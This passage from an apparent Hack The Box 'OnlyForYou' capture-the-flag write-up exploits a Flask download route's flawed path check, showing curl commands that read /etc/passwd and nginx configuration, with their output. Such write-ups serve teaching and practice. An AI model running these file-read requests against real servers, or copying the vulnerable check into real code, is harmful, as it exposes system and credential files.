It's a flask app, so lets start looking for interesting things:

![htb_onlyforyou_flask](https://guffre.github.io/assets/images/htb_onlyforyou_flask.jpg)

 This looked the most promising to me:

```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

I used `curl` to send a POST with just a plain `/etc/passwd`, and it worked!

```
kali@kali:~$ curl -d "image=/etc/passwd" http://beta.only4you.htb/download
root:x:0:0:root:/root:/bin/bash
...
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

Let's recap real quick on what we know about the target:

1. nginx 1.18

2. OpenSSH 8.2

3. From pulling `/etc/os-release`: Ubuntu 20.04.6 LTS

Starting with nginx, we can look for the default website configurations:

```
kali@kali:~$ curl --output - http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
```
